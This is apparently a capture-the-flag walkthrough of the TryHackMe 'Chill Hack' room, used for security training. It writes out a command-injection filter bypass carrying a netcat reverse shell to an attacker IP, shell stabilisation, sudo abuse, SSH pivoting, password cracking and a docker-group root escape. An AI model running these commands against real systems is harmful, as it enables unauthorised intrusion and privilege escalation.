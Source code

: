 # Chill Hack

**Room Link:** [https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (15) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (39) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (28) (4) (3).png" alt=""><figcaption></figcaption></figure>



A lot of commands ran will result in this page.

<figure><img src="../../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

### Command Injection

Used this to find a way to bypass the filter. by adding a \ in the middle of the first command, it treats the command as a new line so it allows us to run any command we want.

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)&#x20;



**Web**

<pre><code><strong>r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&#x26;1|nc 10.10.172.186 1337 >/tmp/f
</strong></code></pre>

**Kali**

```
nc -lvnp 1337
```

**Victim**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (20) (1) (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (37) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -u apaar /home/apaar/.helpline.sh
/bin/bash
/bin/bash
```

<figure><img src="../../.gitbook/assets/image (21) (4).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Victim(apaar)**

```
netstat -at
curl localhost:9001
```

<figure><img src="../../.gitbook/assets/image (46) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18) (9).png" alt=""><figcaption></figcaption></figure>

### Pivot

**Kali**

```
ssh-keygen -t rsa
cat /root/.ssh/id_rsa.pub
```

**Victim**

```
copy id_rsa.pub to /home/apaar/.ssh/authorized_keys
```

**Kali**

```
vi /etc/proxychains.conf
```

**proxychains.conf**

```
socks4 	127.0.0.1 9050
```

**Kali**

```
ssh -D 9050 apaar@VICTIM
```

<figure><img src="../../.gitbook/assets/image (42) (2).png" alt=""><figcaption></figcaption></figure>



I can now see the webpage from Kali but no login credentials to use.

<figure><img src="../../.gitbook/assets/image (40) (4).png" alt=""><figcaption></figcaption></figure>

Found credentials for mysql in one of the php files.

**Victim(apaar)**

```
cat /var/www/files/index.php
```

<figure><img src="../../.gitbook/assets/image (27) (6).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

```
mysql -u root -p webportal
Password: !@m+her00+@db
```

**Victim(mysql)**

```
SHOW DATABASES;
use webportal;
SHOW TABLES;
select * from users;
```

<figure><img src="../../.gitbook/assets/image (44) (4).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (41) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (14) (11).png" alt=""><figcaption></figcaption></figure>



Both set of credentials work on the login page, both bring up this page.

<figure><img src="../../.gitbook/assets/image (32) (1) (1).png" alt=""><figcaption></figcaption></figure>

Used no password

**Kali**

```
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

<figure><img src="../../.gitbook/assets/image (17) (6) (2).png" alt=""><figcaption></figcaption></figure>

### Cracking Password Protected Zip Files

**Kali**

```
zip2john backup.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
```

<figure><img src="../../.gitbook/assets/image (43) (1) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
unzip backup.zip
Password: pass1word
```

<figure><img src="../../.gitbook/assets/image (24) (7).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat source_code.php 
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (36) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

<pre><code>su anurodh
<strong>Password: !d0ntKn0wmYp@ssw0rd
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (33) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

anurodh is apart of a docker group which the other user was not apart of, looking at gtfo bins theres a way to get a shell so I tried it and got root

**Link:** [https://gtfobins.github.io/gtfobins/docker/#shell](https://gtfobins.github.io/gtfobins/docker/#shell)

**Victim(anurodh)**

```
groups
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><img src="../../.gitbook/assets/image (34) (1) (1).png" alt=""><figcaption></figcaption></figure>
